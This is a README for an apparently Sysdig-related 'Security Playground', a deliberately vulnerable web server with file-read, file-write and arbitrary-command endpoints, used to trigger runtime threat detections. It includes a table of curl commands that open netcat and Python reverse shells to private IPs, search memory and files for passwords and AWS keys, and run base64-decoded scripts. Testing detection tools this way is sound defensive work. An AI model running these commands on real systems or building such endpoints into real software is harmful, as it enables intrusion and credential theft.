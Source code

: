 # Security Playground

The security playground is a HTTP web server that alllows you to simulate various security breaches in runtime.

## Installation

Use the deployment.yaml to deploy this to your kubernetes cluster, it will deploy
- Deployment with 1 Replica of the pod
- LoadBalancer Service to expose the web server on port 80/HTTP

```bash
kubectl apply -f kubernetes-manifests/deployment.yaml
```

Or run it locally in using docker

```bash
docker run --rm -p 8080:8080 ghcr.io/andrewd-sysdig/security-playground:latest
```

## Usage

The HTTP API exposes three endpoints to interact with the system.

### Reading a file

You can read a file using just the URL. This will return the content of the /etc/shadow file.

```bash
curl http://<webserver>/etc/shadow
```

### Writing a file

You can write to a file using the URL and POSTing the content. This will write to /bin/hello the hello-world string.

```bash
curl -X POST http://<webserver>/bin/hello -d 'content=hello-world'
```

### Executing a command

You can execute a command using the /exec endpoint and POSTing the command. This will capture and return the STDOUT of the command executed.

```bash
curl -X POST http://<webserver>/exec -d 'command=ls -la'
```

## Library of curl commands to trigger various Sysdig Events

Set the WEBSERVERIP env variable to be the IP of your target (the pod/service)

```bash
export WEBSERVERIP=192.168.1.15
```

## Library of curl commands to trigger various Sysdig Events

> **Sysdig Managed Policy: Sysdig Runtime Threat Detection (Severity: High)**

| Sysdig Event | Curl Command   |
|---|---|
| Reconnaissance attempt to find SUID binaries | `curl -X POST http://$WEBSERVERIP/exec -d 'command=find / -perm -u=s -type f 2>/dev/null'` |
| Dump memory for credentials | `curl -X POST http://$WEBSERVERIP/exec -d 'command=grep passwd /proc/1/mem'` |
| Find AWS Credentials | `curl -X POST http://$WEBSERVERIP/exec -d 'command=grep aws_access_key_id /tmp/'` |
| Netcat Remote Code Execution in Contianer | `curl -X POST http://$WEBSERVERIP/exec -d 'command=nc -c bash 10.0.0.1 4242'` |
| Suspicious Home Directory Creation | `curl -X POST http://$WEBSERVERIP/exec -d 'command=adduser -h /dev/null -s /bin/sh test3 -D'` |
| Base64-encoded Python Script Execution | `curl -X POST http://$WEBSERVERIP/exec -d 'command=echo cHl0aG9uMyAtYyAnaW1wb3J0IF9faGVsbG9fXycK \| base64 -d \| sh'` |
| Base64-encoded Shell Script Execution | `curl -X POST http://$WEBSERVERIP/exec -d 'command=echo IyEvYmluL3NoCmVjaG8gIkhlbGxvIFdvcmxkIgo= \|base64 -d \|sh'` |
| Base64'd ELF file on Command Line | `curl -X POST http://$WEBSERVERIP/exec -d 'command=echo f0VMRgIB1M== \|base64 -d > hello'` |

> **Sysdig Managed Policy: Sysdig Runtime Notable Events (Severity: Medium)**

| Sysdig Event | Curl Command   |
|---|---|
| Read sensitive file untrusted | `curl http://$WEBSERVERIP/etc/shadow` |
| Redirect STDOUT/STDIN to Network Connection in Container | `curl -X POST ${WEBSERVERIP}/exec -d command="python -c 'import socket,os,pty;s=socket.socket();s.connect((\"192.168.1.3\",4242));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")'"` |
